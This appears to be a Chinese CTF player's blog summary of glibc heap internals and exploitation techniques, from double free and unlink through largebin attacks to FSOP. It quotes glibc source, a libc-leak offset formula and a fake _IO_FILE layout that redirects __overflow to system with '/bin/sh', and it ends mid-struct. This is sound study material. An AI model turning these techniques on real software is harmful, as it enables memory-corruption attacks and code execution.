






# glibc总结

学了也有三个月的glibc（其实自己一直在摆烂），感觉glibc不是很有意思，今天写个总结，就把这东西跳过了吧（毕竟看现在各位大爹出的题都是VM，jit这种）

在此我会借鉴很多师傅的文章 **（如果有侵权行为请联系 2295040368@qq.com 删除）** 

## Heap的基础知识

## Heap

*heap* 由低地址向高地址增长，与栈相反，在内存分配如下图



>在Linux系统上，程序被载入内存时，内核为用户进程地址空间建立了代码段、数据段和堆栈段，在数据段与堆栈段之间的空闲区域用于动态内存分配。内核数据结构mm_struct中的成员变量start_code和end_code是进程代码段的起始和终止地址，start_d
>
>ata和 end_data是进程数据段的起始和终止地址，start_stack是进程堆栈段起始地址， **start_brk** 是进程动态内存分配起始地址（堆的起始地址），还有一个 brk（堆的当前最后地址），就是动态内存分配当前的终止地址。


这里涉及到两个函数， *brk()* 和 *sbrk()* ，两者通过改变程序间断点( *program break* )来扩展堆区域的大小，若是不开启ASLR， *start_brk* 就位于bss后，若是开启ALSR，就会在bss后高地址处随机设置 *start_brk*

- malloc类的函数通过 *sbrk()* 来进行分配

- 对于mmap: *mmap()* 函数将一个文件或者其它对象映射进内存。文件被映射到多个页上，如果文件的
  大小不是所有页的大小之和，最后一个页不被使用的空间将会清零。 *munmap()*  执行相反的操
  作，删除特定地址区域的对象映射。函数的定义如下： 

  ```c
  #include <sys/mman.h>
  void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
  int munmap(void *addr, size_t length);
  ```

## Chunk

首先介绍一下chunk的结构，这里拿 *ptmalloc源码分析* 这本书中的图做个例子



可以发现，size位有三个标志位

> A:该chunk属于主分配区还是非主分配区域

> M:该chunk是mmap获得还是非mmap获得

> P:prev_chunk是否在使用中,只有p=0时，prev_size才有效，否则可以被共用(如下)

**注意：**chunk的size存在内存对齐，分配时 *size=size+0x10* 因为要加上chunk头，并且存在空间复用，例如

```c
#include<stdio.h>
#include<stdlib.h>
int main(){
    malloc(0x18);
    malloc(0x10);
    return 0;
}
```

这样子获得的chunk1，chunk2的大小均为0x20。

### 当chunk被释放后


可以看到，原本的chunk的data区域被覆盖，多了四个新东西 *FD，BK，FD_nextsize，BK_nextsize*

其中fd指向链表中的下一个chunk，bk指向链表中上一个chunk。fd_nextsize和bk_nextsize比较特殊，只存在于largebin中，这是由于largebin比较独特的储存方式，我们稍后再讲

## Bin


### fastbin

1. LIFO，例如链表中存在 *C->B->A* ，free(D)后，会出现 *D->C->B->A* 再次malloc时，也会优先取出D
2. 由于fastbin是为了一些小的碎片化的chunk设立的，在chunk进入fastbin时，P并不变为1
3. fastbin链表的最小值为0x20，最大值为0x80(默认)，公差为0x10，在申请加入fastbin时，不会对 *prev_size* 进行检查，但是会对 *size* 的合法性进行检查
4. 当申请一个堆块大于smallbin的最小大小时，会触发 *malloc_consolidate()* ，他会首先把fastbin中相邻的块 *(指物理地址相邻)* 进行合并，合并后放入unsortedbin中，随后，为了分配申请的chunk，会对unsortedbin进行遍历，然后将其归为到smallbin等链表中，使得fastbin清空
5. 若是free后的chunk于相邻的chunk合并后的大小大于 *FASTBIN_CONSOLIDATION_THRESHOLD* (包括与 *topchunk* 的合并)，都会触发 *malloc_consolidate()* ,从而清空fastbin

### unsortedbin

1. 双向链表，FIFO

2. chunk被放入smallbin，largebin之前，一定会被放到unsortedbin，之后通过整合分配再分配到各自的链表中

3. unsortedbin常用来泄露libc，当unsortedbin中只存在1个chunk的时候，FD和BK都会指向 *<main_arena+88>* 的地方，此时若可以进行show等操作，便可以把libc泄露出来，可以直接vmmap减去偏移即可。也可以利用规律，64位中， *malloc_hook* 与 *main_arena* 相差0x10，32位下该偏移为0x18

   ```python
   libc_base = leak_addr - libc.symbols['__malloc_hook'] - 0x10 - 88
   ```

### smallbin

1. 双向链表，FIFO
2. size:0x20-0x3F0

### largebin

1. 双链表，FIFO

2. largebin比较特殊，多出了 *fd_nextsize，bk_nextsize*,这两个指针导致largebin的存储存在横向和纵向链表，这是由于largebin不同于其他链表储存的方式，largebin每个链表中储存的是一定范围内的chunk

   上图中可以发现，在同一个bin中，通过 *fd_nextsize and bk_nextsize* 链接不同大小的chunk，相同大小的chunk通过 *fd & bk* 进行链接

### tcache

1.  *libc-2.27* 引入，LIFO，单向链表
2. 每个bin存放的大小相同且最多7个，存在 *tcache_prethread_struct* 结构体，该结构体位于heap首块内存，大小为 *0x250* ，可以通过一定方式修改这个chunk中记录的tcache的数量来达到释放到unsortedbin中的效果
3. 从 *fastbin/smallbin* 中取出一个chunk，剩下的chunk会放到 *tcache* 中，直到达到 *tcache* 的上限，在从smallbin中移动到tcache中，除了第一个chunk的fd会被检查之外，其余的chunk都会缺失了 *__glibc_unlikely(bck->fd!=victim)* 的双向链表完整性的检查

## 利用手法

### Use_After_Free(UAF)

*uaf* 是比较常见的漏洞，触发点为free了chunk之后并没有指针进行置0，uaf可以导致show fd等内容，泄露重要内容以及doublefree等

#### Double_free

1. **libc2.23下的double_free：**
   1. *fastbin：* 对于fastbin来说，若是free的chunk雨FastbinY的首个chunk相同，就会报错，所以我们可以利用另外的一个chunk进行doublefree，例如首先构成 *B->A* 之后再次free(A)，就会形成 *A->B->A* 之后申请A，对A进行edit，就可以完成任意地址的分配，**常常通过修改malloc_hook为one_gadget的方式来getshell** 
2. **libc2.27下的double_free：** 
   1.  *tcache：*对于tcache来说，double_free显然更简单一点，为了追求运行速度，tcache对doublefree并没有过多的检查，我们直接修改next即可 
   2. 对于 *A->A* 可以通过一次malloc(A)，获得edit的权利，然后仿造 *fastbinAttack* 进行攻击， **在2.27下常修改free_hook** 但是由于申请了三次而只释放了两次，会导致 *tcache_count* 变为0xff(-1)
3. **libc高版本的double_free：**
   1. 首先对于 *tcache* 来说，tcache在 **libc2.29** 下加入了key值，通过key值来判断是否存在doublefree，但是key值可以用一定方法绕过，常见的有 **通过edit修改key值/houseofbotcake**
4. 若存在edit，可以直接进行edit(这是最简单的uaf)，个人观点认为uaf和double_free本质是一家的，当无法对free掉的chunk进行edit的时候，double_free更加方便

### off_by_one

*off_by_one* 也是低版本中比较常见的漏洞，根据个人经验来说 **通常出现出题人自己写的读入函数容易出现该漏洞** 常常修改prev_inuse和修改prev_size一起利用，从而达到 *overlapping* 的效果

在libc2.29之后加入如下检测，会导致unlink无法使用

```c
/* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      /* 后两行代码在最新版本中加入*/
      if (__glibc_unlikely (chunksize(p) != prevsize))
        malloc_printerr ("corrupted size vs. prev_size while consolidating");
      unlink_chunk (av, p);
    }
```

### unlink

*unlink* 属于比较古早的利用方法,源码如下

```c
#define unlink(AV, P, BK, FD) {                         
    //判断chunk p的大小，是否与下一个chunk 的prev_size相等
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))
      malloc_printerr ("corrupted size vs. prev_size"); 
    //让FD指向p的下一个chunk，BK指向p的上一个chunk
    FD = P->fd;                                   
    BK = P->bk;                                   
    //以上是，chunk的大小在small bin范围内的断链操作
    //以下是，large bin，的断链操作，首先判断FD的bk，与BK的fd是否同时指向p
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))             
      malloc_printerr ("corrupted double-linked list");               
    else {                                    
        //首先进行初步断链，使FD的bk指向BK的fd，BK的fd指向FD，只是堆fd,bk的断链操作
        FD->bk = BK;                                  
        BK->fd = FD;                                  
        //以下使堆bk_nextsize,fd_nextsize的断链操作（large bin有两个双向链表，fd，bk用来
        //进行FIFO操作，bk_nextsize,fd_nextsize是根据堆块的大小进行排序的链表）
        //以下第一个if判断p的chunk是否在small范围内
        if (!in_smallbin_range (chunksize_nomask (P))                  
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {             
            //判断chunk p的下一个chunk的上一个节点，以及上一个chunk的下一个节点是不是p
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)         
        || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))     
          malloc_printerr ("corrupted double-linked list (not small)");    
          //以下是luoarge bin的断链操作，首先判断chunk p的下下一个chunk的fd_nextsize是否为空
            if (FD->fd_nextsize == NULL) {                     
            //p的下下一个chunk的fd_nextsize为空
                if (P->fd_nextsize == P)                       
                //判断是否只有一个chunk p,是则如下
                  FD->fd_nextsize = FD->bk_nextsize = FD;              
                else {                                 
                //不是以下操作，四个指针，正常的双向链表的断链操作
                    FD->fd_nextsize = P->fd_nextsize;                  
                    FD->bk_nextsize = P->bk_nextsize;                  
                    P->fd_nextsize->bk_nextsize = FD;                  
                    P->bk_nextsize->fd_nextsize = FD;                  
                  }                                
              } else {                                 
              //p的下下一个chunk的fd_nextsize不为空，直接断链
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;              
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;              
              }                                    
          }                                    
      }                                        

```

具体的操作可以看我的另外一篇博客 glibclearning，总的来说，我认为unlink主要是写入的地址是根据列表去找，这样子就可以实现 **ptr=&(ptr-0x18)*,从而达到向ptr写入就是向ptr-0x18写入，再通过覆盖修改ptr为某个函数的got表，从而达到函数劫持的效果

### tcache_stashing_unlink_attack

#### house of lore:

修改一个small bin的某个freed chunk的bk为fakechunk，并且修改fakechunk的fd为该freed chunk用于绕过glibc的检查，就可以成功的从small bin中申请该chunk

在高版本的glibc引用tcache之后，该漏洞就更容易利用，因为在从smallbin中返回一个chunk，并且将剩下的chunk放到tcache中，只会对第一个chunk的fd进行检查，后续的fd并不检查，这样子就很容易造成任意的读写，并且已知calloc会越过tcache直接从smallbin中获得chunk。

#### 利用：

1. 假设目前`tcache bin`中已经有五个堆块，并且相应大小的`small bin`中已经有两个堆块，由`bk`指针连接为：`chunk_A<-chunk_B`。

2. 利用漏洞修改`chunk_A`的`bk`为`fake chunk`，并且修改`fake chunk`的`bk`为`target_addr - 0x10`。

3. 通过`calloc()`越过`tcache bin`，直接从`small bin`中取出`chunk_B`返回给用户，并且会将`chunk_A`以及其所指向的`fake chunk`放入`tcache bin`（这里只会检测`chunk_A`的`fd`指针是否指向了`chunk_B`）。

   ```c
   while ( tcache->counts[tc_idx] < mp_.tcache_count
       && (tc_victim = last (bin) ) != bin) //验证取出的Chunk是否为Bin本身（Smallbin是否已空）
   {
    if (tc_victim != 0) //成功获取了chunk
    {
        bck = tc_victim->bk; //在这里bck是fake chunk的bk
        //设置标志位
        set_inuse_bit_at_offset (tc_victim, nb);
        if (av != &main_arena)
            set_non_main_arena (tc_victim);
    
        bin->bk = bck;
        bck->fd = bin; //关键处
    
        tcache_put (tc_victim, tc_idx); //将其放入到tcache中
    }
   }
   ```

4. 在`fake chunk`放入`tcache bin`之前，执行了`bck->fd = bin;`的操作（这里的`bck`就是`fake chunk`的`bk`，也就是`target_addr - 0x10`），故`target_addr - 0x10`的`fd`，也就`target_addr`地址会被写入一个与`libc`相关大数值（可利用）。

5. 再申请一次，就可以从`tcache`中获得`fake chunk`的控制权。

### house of spirit

通过伪造chunk，来申请这块chunk，从而进行任意地址写

#### 利用条件：

1. fake chunk的size在fastbin的范围中
2. fake chunk的size在fastbin的范围中
3. fake chunk的next chunk的size大小满足大于2*SIZE_SZ（64位程序中SIZE_SZ为8），小于av->system_mem（在main_arena中，默认为128kb）
4. fake chunk与对应的fastbin链表头chunk不同（会检查是否double free）

### house of force

通过修改topchunk的size，使得可以完成任意地址分配chunk，从而达到修改的效果

#### 利用条件：

1. *libc2.27* 之前，之后对topchunk增加的检测
2. 分配的 *size* 没有限制

#### 攻击步骤：

1. 利用 *top chunk* 的 *size* 的 *unsigned int* 类型强转，修改 `size=-1`,即`0xffffffffffffffff`，这样就可以任意分配
2. 将 *malloc_size* 设置为 *target_addr-topchunk_ptr-0x10\*2* ,接着 *malloc(malloc_size)* 就可以使得 *topchunk* 转移到对应的地址
3. 继续malloc，即可实现任意地址分配chunk 

### house of rabbit

通过 *malloc_consilidate()* 造成 *heap_overlap* 或者引入 *fake_chunk* 成为合法 *chunk* 

#### 原理:

*malloc_consolidate()* 函数对于fastbin的size检查缺失，从而可以进行利用

#### 利用条件:

1. *fastbin_chunk* 的 *size* 可控。例如：fastbin中存在两个 `0x20` 大小的chunk，，我们修改其中一个的size为0x40，即可造成 *heap_overlap* 
2. 修改fastbin的 fd，将其引入fastbin的链表中，可以将其合法化，但是要注意伪造 *fake_chunk's next_chunk* 的size和 *next_chunk‘s next_chunk* 的size(prev_inuse为1)

### Unsortedbin Attack

常用来向一个地址写入一个大数，经常配合 *global_max_fast || tcache_struct_prethread* 食用，用来利用 *fastbin || tcachebin* 

[合天网安对于libc2.29下类似于unsortedbinAttack的利用](https://zhuanlan.zhihu.com/p/142801582)

### largebin Attack

#### 原理: 

问题主要出在源码的这个部分

```c
else
{
    victim->fd_nextsize = fwd;
    victim->bk_nextsize = fwd->bk_nextsize;//1
    fwd->bk_nextsize = victim;
    victim->bk_nextsize->fd_nextsize = victim;//2
}
...
bck = fwd->bk;
...
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;//3
```

#### 前提条件:

已经有一个 *chunk_A* 在largebin的的链表中，并且又一个略大于 *chunk_A's size* 的 *chunk_B* 加入largebin，这里有 *victim=chunk_B&&fwd=chunk_A* 我们知道，在largebin中，*fd_nextsize* 指向的是前一个比自己小的chunk。倘若我们 **修改victim的bk为addr1-0x10，victim的bk_nextsize为addr-0x20，就可以向addr1&addr2中写入 victim的值(一个很大的数)，这是结合1,2,3推断出来的** 

### IO_FILE利用

FILE 在 Linux 系统的标准 IO 库中是用于描述文件的结构，称为文件流。 FILE 结构在程序执行 fopen 等函数时会进行创建，并分配在堆中。我们常定义一个指向 FILE 结构的指针来接收这个返回值。

FILE结构体如下

```c
struct _IO_FILE {
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001
  _IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
# else
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;

  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif
};
```

事实上，_IO_FILE的外层有一层 *\_IO_FILE_Plus* 结构如下

```c
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};
```

对于 *\_IO_jump_t* 其结构如下

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```

可以看到，IO最终调用的都是这些函数，比如puts最终会调用 *_IO_xsputn_t* 

#### FSOP

##### 适用版本：

libc2.23

##### 原理：

劫持 *vtable||_chain* 字段，伪造 *IO_FILE* 。主要是通过调用 *IO_flush_all_lockp()* 触发，触发条件如下

1. libc检测到内存错误，执行abort函数,**要求libc<2.26**
2. 程序执行exit()函数
3. 程序从main函数返回



我们先看一下 *IO_flush_all_lockp()* 函数的源码

```c
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;
 
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
        ...
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
#endif
       )
      && _IO_OVERFLOW (fp, EOF) == EOF)   //如果输出缓冲区有数据，刷新输出缓冲区
    result = EOF;
 
    fp = fp->_chain; //遍历链表
    }
    [...]
}
```

这里推荐一篇文章

[IOFILE利用](https://xz.aliyun.com/t/5508)


(感慨

所以FSOP其实就是通过伪造 *\_chain* 字段和劫持 *vtable* 去劫持 *\_IO_OVERFLOW* ，其参数为flags，即 *IO_FILE_Struct* 首地址，从而完成劫持

##### 利用条件：

伪造IO FILE结构体，并利用漏洞将`_IO_list_all`指向伪造的结构体，或是将该链表中的一个节点（`_chain`字段）指向伪造的数据，最终触发`_IO_flush_all_lockp`，绕过检查，调用`_IO_OVERFLOW`时实现执行流劫持。

**其中，绕过条件是检查缓冲区中是否有数据**

```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
```

于是，2.23下的FSOP可以构造如下的chunk

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = "/bin/sh\x00", //对应此结构体首地址(fp)
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = heap_addr
}
heap_addr
{
  __dummy = 0x0,
  __dummy2 = 0x0,
  __finish = 0x0,
  __overflow = system_addr,
    ...
}
```


#### 2.24下的FSOP

在libc2.24之后，对虚表加入了检查，若是无法通过检查就会报错

```c
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
# define _IO_JUMPS_FUNC(THIS) \
  (IO_validate_vtable                                                   \
   (*(struct _IO_jump_t **) ((void *) &_IO_JUMPS_FILE_plus (THIS)   \
                 + (THIS)->_vtable_offset)))
```

由此可以看出，在表用vtabel函数之前，内联进入了IO_validate_vtable函数。

```c
static inline const struct _IO_jump_t * IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;
  uintptr_t offset = ptr - __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length)) //检查vtable指针是否在glibc的vtable段中。
    _IO_vtable_check ();
  return vtable;
}
```

我们要知道的是，glibc中有一个段存放的是各个vtable指针，如果不在glbc段内，就继续调用 \__IO_vtable_check_ 

```c
void attribute_hidden _IO_vtable_check (void)
{
#ifdef SHARED
  void (*flag) (void) = atomic_load_relaxed (&IO_accept_foreign_vtables);
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (flag);
#endif
  if (flag == &_IO_vtable_check) //检查是否是外部重构的vtable
    return;
 
  {
    Dl_info di;
    struct link_map *l;
    if (_dl_open_hook != NULL
        || (_dl_addr (_IO_vtable_check, &di, &l, NULL) != 0
            && l->l_ns != LM_ID_BASE)) //检查是否是动态链接库中的vtable
      return;
  }
 
...
 
  __libc_fatal ("Fatal error: glibc detected an invalid stdio handle\n");
}
```

所以，最好的办法就是，我们伪造的vtable应该在glibc的vtable段中，这样子就可以很自然的绕过这个检查，目前来说有以下几种比较好用的方法

1. 利用 _\_IO_str_jumps_ 中的 _\_IO_str_finish()_ 函数

   该结构体的源码如下：

   ```c
   const struct _IO_jump_t _IO_str_jumps libio_vtable =
   {
     JUMP_INIT_DUMMY,
     JUMP_INIT(finish, _IO_str_finish),
     JUMP_INIT(overflow, _IO_str_overflow),
     JUMP_INIT(underflow, _IO_str_underflow),
     JUMP_INIT(uflow, _IO_default_uflow),
     JUMP_INIT(pbackfail, _IO_str_pbackfail),
     JUMP_INIT(xsputn, _IO_default_xsputn),
     JUMP_INIT(xsgetn, _IO_default_xsgetn),
     JUMP_INIT(seekoff, _IO_str_seekoff),
     JUMP_INIT(seekpos, _IO_default_seekpos),
     JUMP_INIT(setbuf, _IO_default_setbuf),
     JUMP_INIT(sync, _IO_default_sync),
     JUMP_INIT(doallocate, _IO_default_doallocate),
     JUMP_INIT(read, _IO_default_read),
     JUMP_INIT(write, _IO_default_write),
     JUMP_INIT(seek, _IO_default_seek),
     JUMP_INIT(close, _IO_default_close),
     JUMP_INIT(stat, _IO_default_stat),
     JUMP_INIT(showmanyc, _IO_default_showmanyc),
